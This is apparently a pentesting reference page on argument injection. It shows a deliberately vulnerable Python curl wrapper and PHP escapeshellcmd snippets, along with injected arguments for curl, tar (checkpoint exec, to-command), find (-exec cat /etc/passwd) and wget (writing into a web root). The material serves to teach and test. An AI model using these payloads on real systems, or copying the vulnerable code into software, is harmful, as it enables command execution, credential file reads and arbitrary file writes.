 +++
title = "Argument Injection"
description = "Argument injection attacks, anything and everything you need to know.."
date = "2023-03-28"
include_toc = 'true'
+++

# Argument Injection
Argument injection is similar to command injection as tainted data is passed to to a command executed in a shell without proper sanitization/escaping.

It can happen in different situations, where you can only inject arguments to a command:

- Improper sanitization (regex)
- Injection of arguments into a fixed command (PHP:escapeshellcmd, Python: Popen)
- Bash expansion (ex: *)

In the following example, a python script takes the inputs from the command line to generate a ```curl``` command:
```py
from shlex import quote,split
import sys
import subprocess
if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```
It is possible for an attacker to pass several words to abuse options from ```curl``` command
```ps1
python python_rce.py "https://www.google.fr -o test.py" 
```
We can see by printing the command that all the parameters are splited allowing to inject an argument that will save the response in an arbitrary file.
```ps1
['curl', 'https://www.google.fr', '-o', 'test.py']
```
## Summary

* [List of exposed commands](#list-of-exposed-commands)
  * [CURL](#CURL)
  * [TAR](#TAR)
  * [FIND](#FIND)
  * [WGET](#WGET)
* [References](#references)


## List of exposed commands

### CURL
It is possible to abuse ```curl``` through the following options:

```ps1
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
```
In case there is already one option in the command it is possible to inject several URLs to download and several output options. Each option will affect each URL in sequence.

### TAR
For the ```tar``` command it is possible to inject arbitrary arguments in different commands. 

Argument injection can happen into the '''extract''' command:
```ps1
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

Or in the '''create''' command:
```ps1
-I=<program> or -I <program>
--use-compres-program=<program>
```
There are also short options to work without spaces:
```ps1
-T<file>
-I"/path/to/exec"
```

### FIND
Find some_file inside /tmp directory.
```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print /etc/passwd content.
```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

### WGET
Example of vulnerable code
```php
system(escapeshellcmd('wget '.$url));
```
Arbitrary file write
```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
```


## References

- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014](https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek,  Apr 25, 2018](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)